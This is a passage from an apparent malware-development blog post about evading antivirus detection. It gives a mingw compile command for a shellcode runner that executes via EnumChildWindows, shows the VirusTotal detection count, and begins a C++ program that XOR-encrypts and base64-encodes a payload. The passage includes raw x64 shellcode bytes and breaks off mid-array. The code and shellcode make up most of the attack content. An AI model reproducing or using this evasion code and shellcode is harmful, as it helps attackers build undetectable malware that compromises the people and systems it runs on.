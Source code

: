 For simplicity, as you can see, we use running shellcode [via EnumChildWindows](https://cocomelonc.github.io/malware/2022/07/13/malware-injection-21.html) logic.     

Compile it:     

```bash
x86_64-w64-mingw32-gcc -O2 hack0.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![compile]({{ site.baseurl }}/images/2/2023-03-08_20-55.png)     

check it:     

![demo]({{ site.baseurl }}/images/2/2023-03-08_20-56.png)    

Let's go to upload this "malware" to VirusTotal:      

![vt]({{ site.baseurl }}/images/2/2023-03-08_19-57.png)      

[https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection](https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection)     

**As you can see, 45 of 69 AV engines indicate it as malicious**      

### encryption and encoding

Then, create C++ script for encrypting our payload via `XOR` algorithm + `base64` encode result:     

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <windows.h>
#include <wincrypt.h>
#pragma comment (lib, "Crypt32.lib")

// key for XOR decrypt
char my_secret_key[] = "mysupersecretkey";

// decrypt deXOR function
void XOR(char * data, size_t data_len, char * key, size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
    data[i] = data[i] ^ key[j];
    j++;
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
```